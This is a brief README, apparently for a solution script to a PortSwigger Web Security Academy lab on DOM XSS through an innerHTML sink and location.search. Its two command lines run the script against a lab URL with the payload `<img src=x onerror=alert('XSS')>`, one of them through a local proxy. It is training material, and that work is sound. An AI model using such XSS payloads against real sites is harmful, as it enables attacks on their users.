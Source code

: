 # How to run script.py

### DOM XSS in innerHTML sink using source location.search

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<img src=x onerror=alert('XSS')>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<img src=x onerror=alert('XSS')>" -p 127.0.0.1:8080`
